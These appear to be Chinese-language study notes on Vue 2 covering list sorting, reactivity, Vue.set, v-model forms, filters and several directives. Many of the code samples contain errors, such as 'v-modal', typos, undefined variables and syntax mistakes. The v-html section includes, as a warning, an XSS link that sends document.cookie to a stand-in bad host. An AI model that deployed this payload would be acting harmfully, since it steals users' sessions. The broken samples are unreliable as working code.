## 列表排序

- 增加一個 sortType，在過濾後排序
- 作為依賴項，當 computed 監測依賴項到改變就會更新
- 如果沒有用 person.id 作為 key，用 index，會因為排序的方式是破壞性的修改，而造成 DOM 渲染錯誤(input 匹配錯誤)

```html
<div id="root">
  <h1>人員列表</h1>
  <input type="text" />
  <button @click="sortType = 2">年齡升序</button>
  <button @click="sortType = 1">年齡降序</button>
  <button @click="sortType = 0">原順序</button>
  <ul>
    <li v-for="person in filteredPersons" :key="person.id">
      {{ person.name }} - {{ person.age }}
      <input type="text" placeholder="type some name" v-modal="keyword" />
    </li>
  </ul>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      sortType: 0,
      keyword:'',
      persons: [
        {
          id: '001',
          name: '馬冬梅',
          age: 18
        },
        {
          id: '002',
          name: '周冬雨',
          age: 19
        },
        {
          id: '003',
          name: '周杰倫',
          age: 20
        },
        {
          id: '004',
          name: '溫兆倫',
          age: 20
        }
      ],
    },
    computed: {
      filteredPerson(){
        const arr = this.persons.filter(el => {
          return el.name.indexOf(val) !== -1
        })
        // 判斷是否需要排序
        if(this.sortType) {
          arr.sort(p1, p2)=>{
            // 1 降序 2 升序
            return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age
          }
        }
        return arr
      }
    }
  })
</script>
```

## Vue 監測原理(數據代理)

- new Vue data 時會加工成響應式(寫成 getter 跟 setter 的寫法)
- 工程師監測會用 watch 監測指定數據變化，Vue 創建一個 Observer 監測 data 中所有數據，原理類似
- Observer 監測 data 中的變化，是把所有 data 屬性存成陣列，當用 setter 修改時，遍歷
- vm._data = data (把我們賦予 data 的數據拿到`_.data`)
- data 改變，調用 setter 函式，重新解析模板，畫面更新

### 無法透過索引值修改資料更新畫面

- 更新特定物件屬性 this.persons[0].name，畫面會更新(name 有對應的 getter setter)
- 更新物件資料 this.persons[0]，Vue 偵測不到(索引值沒有對應的 getter setter)，畫面不更新
- 因為監聽的陣列需要透過 Vue 包裝過的 push、pop、shift、unshift、splice、sort、reverse，Vue.set(target, key, value)才能偵測到資料改變
- 物件跟陣列的 key 一個是屬性一個是索引，基本上沒差

```js
vm.persons.push === Array.prototype.push // false
```

```html
<div id="root">
  <h1>人員列表</h1>
  <button @click="updateMei">更新馬冬梅資料</button>
  <ul>
    <li v-for="person in persons" :key="person.id">
      {{ person.name }} - {{ person.age }}
      <input type="text" placeholder="type some name" v-modal="keyword" />
    </li>
  </ul>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      persons: [
        {
          id: '001',
          name: '馬冬梅',
          age: 18,
        },
        {
          id: '002',
          name: '周冬雨',
          age: 19,
        },
        {
          id: '003',
          name: '周杰倫',
          age: 20,
        },
        {
          id: '004',
          name: '溫兆倫',
          age: 20,
        },
      ],
    },
    methods: {
      updateMei() {
        // 成功 Vue有監測到
        // this.persons[0].name = '馬老師'
        // this.persons[0].age = 29

        // 失敗 Vue沒有監測到
        this.persons[0] = {
          id: '001',
          name: '馬老師',
          age: 50,
        }
      },
    },
  })
</script>
```

### Vue.set()

- 資料屬性除了原先在 data 裡面定義好外，若希望添加 data 屬性(且有響應式)，可以用 Vue.set(跟 vm.$set(this.$set) 一樣)
- Vue.set(target, key, value)
- target 寫 `vm._data.student` 或 `vm.student` 都可以
- 無法針對 Vue 實例(vm 本身)跟 vm.data 做修改，使用 Vue.set(不存在 data 裡面的屬性, key, value)會報錯

```html
<div id="root">
  <button @click="addGender">添加一個性別屬性，預設：男</button>
  <h2>學生姓名:{{student.name}}</h2>
  <h2 v-if="student.gender">學生性別:{{student.gender}}</h2>
  <h2>學生年齡:真實{{student.age.realAge}}，假的{{student.age.fakeAge}}</h2>
  <h2>朋友們</h2>
  <ul>
    <li v-for="(friend, index) in friends" :key="friend.index">
      {{ friend.name }} == {{ friend.age }}
    </li>
  </ul>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      student: {
        name: 'tom'
        age: {
          realAge: 40,
          fakeAge: 29
        }
      },
      friends: [
        {
          name: 'jerry',
          age: 35
        },
        {
          name: 'herry',
          age: 23
        }
      ]
    },
    methods: {
      addGender(){
        Vue.set(this.student, gender, '男')
      }
    }
  })
</script>
```

### 總結

```html
<div id="root">
  <button @click="student.age++">年齡++</button>
  <button @click="addGender">添加一個性別屬性，預設：男</button>
  <button @click="addFriend">列表首位添加一個朋友</button>
  <button @click="updateFriend">修改第一個朋友名字為張三</button>
  <button @click="addHobby">添加一個愛好</button>
  <button @click="updateHobby">修改第一個愛好為開車</button>

  <h2>姓名:{{student.name}}</h2>
  <h2 v-if="student.gender">性別:{{student.gender}}</h2>
  <h2>年齡:{{student.age}}</h2>
  <h2>愛好</h2>
  <ul>
    <li v-for="(h, hobby) in student.hobby" :key="hobby.index">{{ h }}</li>
  </ul>
  <h2>朋友們</h2>
  <ul>
    <li v-for="(friend, index) in student.friends" :key="friend.index">
      {{ friend.name }} - {{ friend.age }}
    </li>
  </ul>
</div>
<script src="https://unpkg.com/vue@2"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      student: {
        name: 'tom',
        age: 19,
        hobby: ['學習', '吃飯', '打東東'],
        friends: [
          { name: 'jerry', age: 35 },
          { name: 'tony', age: 36 },
        ],
      },
    },
    methods: {
      addGender() {
        this.$set(this.student, 'gender', '男')
      },
      addFriend() {
        this.student.friends.unshift({ name: 'herry', age: 23 })
      },
      updateFriend() {
        this.student.friends[0].name = '張三'
      },
      addHobby() {
        this.student.hobby.push('睡覺')
      },
      updateHobby() {
        this.student.hobby.splice(0, 1, '開車')
      },
    },
  })
</script>
```

## 表單元素

- v-model 在不同 input 會使用不同 property 拋出不同事件
- text 和 textarea 元素使用 value property 和 input 事件
- select 將 value 作為 prop 並將 change 作為事件
- checkbox 和 radio 使用 checked property 和 change 事件，除非另外寫 value 值
- v-model 會優先以 Vue 的 data 的初始值作為數據來源，忽略表單元素的 value、checked、selected attribute 的初始值
- radio 單選配置一樣的 name 就可以單選
- checkbox 裡面的多選項，需要在 data 裡面用陣列定義，才能收集 value 組成的陣列。若初始值不是陣列，寫字串，收集的就是 checked(布林值)

### v-modal 修飾符

- lazy 失去焦點再收集數據
- number 輸入字串轉為有效數字
- trim 去掉前後空白
- 不要在 label 元素内部放可交互的元素，例如 anchors 或 buttons。會不容易觸發相關表單輸入

```html
<div id="root">
  <form @submit.prevent="submit">
    <label for="account">帳號</label>
    <input v-modal.trim="userInfo.account" type="text" id="account" />
    <label for="password">密碼</label>
    <input v-modal.trim="userInfo.password" type="password" id="password" />
    <label for="age">年齡</label>
    <input v-modal.number="userInfo.age" type="number" id="age" />
    <br />
    <label for="male">男</label>
    <input
      v-modal="userInfo.gender"
      type="radio"
      name="gender"
      value="male"
      id="male"
    />
    <label for="female">女</label>
    <input
      v-modal="userInfo.gender"
      type="radio"
      name="gender"
      value="female"
      id="female"
    />
    <br />
    <label for="study">學習</label>
    <input
      type="checkbox"
      name="hobby"
      v-model="userInfo.hobby"
      value="study"
      id="study"
    />
    <label for="game">打遊戲</label>
    <input
      type="checkbox"
      name="hobby"
      v-model="userInfo.hobby"
      value="game"
      id="game"
    />
    <br />
    <label for="city">所屬校區</label>
    <select v-modal="userInfo.city" id="city">
      <option value="">請選擇校區</option>
      <option value="a">a</option>
      <option value="b">b</option>
      <option value="c">c</option>
      <option value="d">d</option></select
    ><br />
    <label for="other">其他：</label>
    <textarea v-modal.lazy="userInfo.other" id="other"></textarea><br />
    <input type="checkbox" v-modal="userInfo.agree" />閱讀並接受<a
      href="https://www.google.com.tw"
      >條款</a
    ><br />
    <button>送出</button>
  </form>
</div>
<script src="https://unpkg.com/vue@2"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      userInfo: {
        account: '',
        password: '',
        gender: 'male',
        hobby: [],
        city: '',
        other: '',
        agree: false,
      },
    },
    methods: {},
  })
</script>
```

## 過濾器 filters(vue3 棄用)

- {{ xxx | 過濾器名}} 或 :屬性 = " xxx } 過濾器名"
- 格式化要顯示的數據(貨幣/時間等)
- 沒有改變原本數據，產生新的數據
- 過濾器也可以接收額外參數，多個過濾器可以串連
- 一般專案使用 day.js 等輕量套件實現格式化時間，dayjs()初始化，format()改成需要的格式

```html
<div>
  <h2>格式化時間</h2>
  <!-- computed實現 -->
  <h3>現在是: {{ formatTime }}</h3>
  <!-- methods實現 -->
  <h3>現在是: {{ getFormatTime() }}</h3>
  <!-- 過濾器 -->
  <h3>現在是: {{ time | timeFormater}}</h3>
  <!-- 過濾器傳參數 -->
  <h3>現在是: {{ time | timeFormater('YYYY_MM_DD') | sliceFourChar }}</h3>
</div>

<div id="root2">
  <h2>{{ msg | sliceFourChar}}</h2>
</div>

<script src="https://unpkg.com/vue@2"></script>
<script src="path/to/dayjs/dayjs.min.js"></script>

<script>
  // 全局
  Vue.filter('sliceFourChar', function(value){
    return value.slice(0,4)
  })
  const vm = new Vue ({
    el: '#root',
    data: {
      time: Date.now(),
      msg: '你好安安安安安安'
    },
    computed: {
      formatTime(){
        return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
      }
    },
    methods: {
      getFormatTime(){
        return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
      }
    },
    // 局部filters
    filters:{
      timeFormater(value, str='YYYY年MM月DD日 HH:mm:ss'){
        return dayjs(value).format(str)
      },
      sliceFourChar(value){
        reutrn value.slice(0, 4)
      }
    }
  })
</script>
```

## v-text

- 向其所在的節點/標籤插入文字
- 值會是字串化內容，無法解析 html 標籤
- 容器裡不寫東西，用 v-text 替換整個容器內容

```html
<div id="root">
  <h2>{{msg}}</h2>
  <h2 v-text="msg"></h2>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      msg: `<h3>你好安安安安安安<h3>`,
    },
  })
</script>
```

## v-html

- v-html 會替換節點所有內容，{{ xx }} 則不會，可以解析 html 結構
- 有安全性問題，XSS 跨站腳本攻擊，盡量不要使用，只能在可信的內容上
- 需要透過 server 設定 HttpOnly 屬性來擋，才不被拿走
-

```html
<div id="root">
  <h2>{{msg}}</h2>
  <h2 v-html="str"></h2>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      msg: '你好安安安安安安'
      // 跳轉服務器 獲取當前網站所有cookie，以傳參數形式傳出去
      str:`<a href=javascript:location.href="http://www.somebadnet.com?"+document.cookie>點我獲取一百萬!</a>`
    },
  })
</script>
```

## v-clock

- 本身沒有值，是特殊屬性，Vue 創建完畢接管容器後會刪除 v-cloak 屬性
- 可以搭配 display:none 屬性，阻止未經過解析的模板渲染到畫面上(cdn 或網速問題)
- 腳本都放 body 前，先解析完模板再 loading script 時容易遇到（放 head 若 cdn 網速慢還是需要等待)

```html
<head>
  <style>
    [v-cloak] {
      display: none;
    }
  </style>
</head>

<div id="root">
  <h2 v-cloak>{{msg}}</h2>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      msg: '你好安安安安安安',
    },
  })
</script>
```

## v-once

- 沒有值，只有屬性
- 初次 Vue 渲染後，就變成靜態內容
- 後續資料變化，在 v-once 裡面不會更新，可用於ㄎ優化性能

```html
<div id="root">
  <h2 v-once>初始化的資料：{{ number }}</h2>
  <h2>當前的資料：{{ number }}</h2>
  <button @click="number++"><button>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      number: 1
    },
  })
</script>
```

## v-pre

- 讓 vue 跳過所在節點的編譯過程，依照模板內容呈現直接呈現
- 沒有使用插值語法，或 vue 指令的節點，例如：單純的字串

```html

<div id="root">
  <h2 v-once>初始化的資料：{{ number }}</h2>
  <h2>當前的資料：{{ number }}</h2>
  <button @click="number++">點我++<button>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      number: 1
    },
  })
</script>
```

## 自定義指令v-directives
- 指令跟元素成功綁定時調用(一上來)
- 指令所在的模板被重新解析時

### 函式寫法
- 傳兩個參數(element, binding對象)

```html
<div id="root">
  <h2>當前的資料：{{ number }}</h2>
  <h2>放大資料：<span v-big="number"></span></h2>
  <button @click="number++">點我++<button>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      number: 1
    },
    directives: {
      big(el, binding) {
        element.innerText = binding.value * 10
      }
    }
  })
</script>
```


### 物件寫法

- 自動聚焦，需要在元素創建並掛在頁面上時才能實現

```html

<div id="root">
  <h2>當前的資料：{{ number }}</h2>
  <h2>放大資料：<span v-big="number"></span></h2>
  <button @click="number++">點我++<button>
  <input type="text" v-fbind:value="n" autofocus>
</div>

<script>
  const vm = new Vue({
    el: '#root',
    data: {
      number: 1
    },
    directives: {
      big(el, binding) {
        element.innerText = binding.value * 10
      },
    }
  })
</script>
```
